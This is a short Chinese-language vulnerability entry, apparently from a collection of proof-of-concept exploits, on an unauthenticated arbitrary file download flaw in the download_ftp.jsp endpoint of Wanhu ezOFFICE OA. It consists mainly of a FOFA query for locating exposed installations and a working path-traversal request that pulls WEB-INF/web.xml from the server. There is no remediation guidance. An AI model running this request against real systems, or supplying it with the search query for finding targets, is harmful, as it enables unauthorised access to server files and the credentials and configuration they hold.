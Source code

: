 ## 万户-ezOFFICE-download_ftp.jsp任意文件下载漏洞

万户OA-ezOFFICE download_ftp.jsp 接口存在任意文件读取漏洞，未经身份认证的攻击者可利用此漏洞获取服务器内部敏感文件，使系统处于极不安全的状态。

## fofa

```
app="万户网络-ezOFFICE"
```

## poc

```
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![image-20240618125057104](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406181250322.png)
